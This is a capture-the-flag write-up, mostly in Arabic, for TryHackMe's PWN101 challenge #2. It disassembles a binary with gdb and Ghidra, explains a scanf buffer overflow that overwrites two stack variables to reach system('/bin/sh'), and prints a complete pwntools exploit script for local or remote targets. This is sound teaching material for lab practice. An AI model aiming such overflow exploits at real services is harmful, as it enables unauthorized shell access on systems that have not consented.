







# PWN101 (TryHackMe)
## Challenge #2
## write-up : 0xNuLLByte
<br>
 <!DOCTYPE html>
<html dir="rtl" lang="ar">
<head>
<meta charset="utf-8">


### كالعادة قبل البدء بعمليـة الـ (debugging) نشاهد سلوك البرنامج.
>
>   
>
>let's fill the buffer with AAAA... :)
>
>
>
> ### - مافيه اي تغير حصل او اخطاء ضهرت لنا! .
___
## ننتقل الى عملية الـ Debugging :
البرامج + الإضافات المستخدمة :
- [gdb](http://www.gdbtutorial.com/tutorial/what-gdb)
- [gdb-peda](https://github.com/longld/peda)
- [Ghidra](https://ghidra-sre.org/InstallationGuide.html)

____

>- نعرض الدوال:
>
> `gdb ./pwn101.pwn101`
> 
> `gdb-peda$ info functions`
> 
> 
>
> - نلاحظ وجود :
>```asm
>0x0000000000000720  system@plt              ; system() : دلاله على وجود داله 
>0x0000000000000750  __isoc99_scanf@plt      ; دلاله على وجود داله scanf();
>                                             ; في حال لم يتم استخدامها بالشكل الصحيح لانها لا تهتم بطول المدخل ولاتتحق بسعته buffer overflow و من الممكن ان تسبب 
> 
> 
>
>
>0x000000000000088a  setup                  ;
>0x00000000000008eb  banner                 ;
>0x00000000000008fe  main                   ;
>```
>
> - نعرض الدالة : main
>
>`gdb-peda$ disassemble main`
>
>   
>
>```asm
>0x00000000000008fe <+0>:	push   rbp
>0x00000000000008ff <+1>:	mov    rbp,rsp
>0x0000000000000902 <+4>:	sub    rsp,0x70
>0x0000000000000906 <+8>:	mov    eax,0x0
>0x000000000000090b <+13>:	call   0x88a <setup>
>0x0000000000000910 <+18>:	mov    eax,0x0
>0x0000000000000915 <+23>:	call   0x8eb <banner>
>0x000000000000091a <+28>:	mov    DWORD PTR [rbp-0x4],0xbadf00d    ; rbp-0x4 =  0xbadf00d  ; 4 byte
>0x0000000000000921 <+35>:	mov    DWORD PTR [rbp-0x8],0xfee1dead   ; rbp-0x8 =  0xfee1dead ; 4 byte
>0x0000000000000928 <+42>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000092b <+45>:	mov    eax,DWORD PTR [rbp-0x4]
>0x000000000000092e <+48>:	mov    esi,eax
>0x0000000000000930 <+50>:	lea    rdi,[rip+0x212]        # 0xb49
>0x0000000000000937 <+57>:	mov    eax,0x0
>0x000000000000093c <+62>:	call   0x730 <printf@plt>
>0x0000000000000941 <+67>:	lea    rax,[rbp-0x70]                   ; byte حجز مساحه حجمها 112
>0x0000000000000945 <+71>:	mov    rsi,rax
>0x0000000000000948 <+74>:	lea    rdi,[rip+0x217]        # 0xb66
>0x000000000000094f <+81>:	mov    eax,0x0
>0x0000000000000954 <+86>:	call   0x750 <__isoc99_scanf@plt>       ; scanf() استدعاء لدالة 
>0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33     ; مقارنة; rbp-0x4 , 0xc0ff33
>0x0000000000000960 <+98>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى اقفز الى 
>0x0000000000000962 <+100>:	cmp    DWORD PTR [rbp-0x8],0xc0d3       ; مقارنة; rbp-0x4 , 0xc0d3
>0x0000000000000969 <+107>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى 
>
>                              ;  __في حال تساوى الشرط__  ;
>0x000000000000096b <+109>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000096e <+112>:	mov    eax,DWORD PTR [rbp-0x4]
>0x0000000000000971 <+115>:	mov    esi,eax
>0x0000000000000973 <+117>:	lea    rdi,[rip+0x1ef]        # 0xb69
>0x000000000000097a <+124>:	mov    eax,0x0
>0x000000000000097f <+129>:	call   0x730 <printf@plt>
>0x0000000000000984 <+134>:	lea    rdi,[rip+0x1f4]        # 0xb7f
>0x000000000000098b <+141>:	call   0x720 <system@plt>
>0x0000000000000990 <+146>:	jmp    0x9a8 <main+170>
>                              ;   __في حال لم يتساوى الشرط__ ;
>0x0000000000000992 <+148>:	lea    rdi,[rip+0x1ef]        # 0xb88
>0x0000000000000999 <+155>:	call   0x710 <puts@plt>
>0x000000000000099e <+160>:	mov    edi,0x539
>0x00000000000009a3 <+165>:	call   0x760 <exit@plt>
>0x00000000000009a8 <+170>:	leave  
>0x00000000000009a9 <+171>:	ret    
>```

## الاستنتاج :
>
> 
>
>```c
>void main(void)
>
>{
>  char buf[104];
>  int var_1;
>  int var_2;
>  
>  setup();
>  banner();
>  var_2 = 0xbadf00d;
>  var_1 = -0x11e2153;
>  
>  printf("I need %x to %x\nAm I right? ",0xbadf00d,0xfee1dead);
>  scanf("%s", buf);
>  if ((var_2 == 0xc0ff33) && (var_1 == 0xc0d3)) {
>    printf("Yes, I need %x to %x\n",0xc0ff33,0xc0d3);
>    system("/bin/sh");
>    return;
>  }
>  puts("I\'m feeling dead, coz you said I need bad food :(");
>                    /* WARNING: Subroutine does not return */
>  exit(1337);
>}
>```

## الاستغلال :
> 
> حاليا الهدف الكتابه فوق المتغيرين واعطائهم القيمه  var_2 == 0xc0ff33, var_1 == 0xc0d3 ليتحقق الشرط ونحصل على : `system("/bin/sh")`
> 
> رسمت رسمه توضح الفكره داخل المكدس
> 
>   

## نكتب سكربت للاستغلال :
>```python
>from pwn import *
>
>#        68 byte           4 byte         4 byte
>PAYLOAD = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)
>
>def exploit_r(host_port: list):
>    HOST, PORT = host_port[0], host_port[1]
>    c = remote(HOST, int(PORT))
>    c.recv()
>    c.sendline(PAYLOAD)
>    c.interactive()
>
>def exploit_l(file: str):
>    p = process(file)
>    p.recv()
>    p.sendline(PAYLOAD)
>    p.interactive()
>
>def main():
>    import sys
>    try:
>        content: string = sys.argv[2]
>        get_flag: bool  = True if "-flag" in sys.argv else False
>
>        if sys.argv[1] == "-r": exploit_r(str(content).split(":"))
>        if sys.argv[1] == "-l": exploit_l(content)
>    except:
>        print("python exploit.py -l file.out        : for locally  exploit")
>        print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>
>if __name__ == "__main__":
>    main()
>
>```
>نجربه محلياََ :
>
>   

## example area ( امثلـــة ):
